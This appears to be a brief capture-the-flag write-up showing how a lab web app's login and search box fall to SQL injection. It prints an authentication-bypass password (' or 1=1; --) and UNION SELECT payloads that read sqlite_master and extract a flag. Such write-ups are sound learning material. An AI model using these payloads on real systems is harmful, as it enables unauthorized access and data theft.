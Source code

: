   ![image](https://github.com/nhattanhh/CTF/assets/130430279/263162c9-f183-4469-a2a9-a2a029a4e952)

  try username: user
      password: user

  You will received this:
  ![image](https://github.com/nhattanhh/CTF/assets/130430279/a2908bbb-16e5-484f-82fb-a92a5990bb6b)

  try SQLinjection with password because here we can see they received password first.
  username: 1
  password: ' or 1=1; --

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/2e6a269a-5576-4f43-88e1-284b80b0984e)

  I think that this search box can execute sqli.
  try:  Algiers' union select sql,1,1 from sqlite_master;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/3217e94e-907e-402e-8296-fc9f2cfb12ad)

  And:  Angiers' union select flag,1,1 from more_table;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/fbf6bb2c-af9e-4ced-b497-27f037a565d0)

  *BOOM*


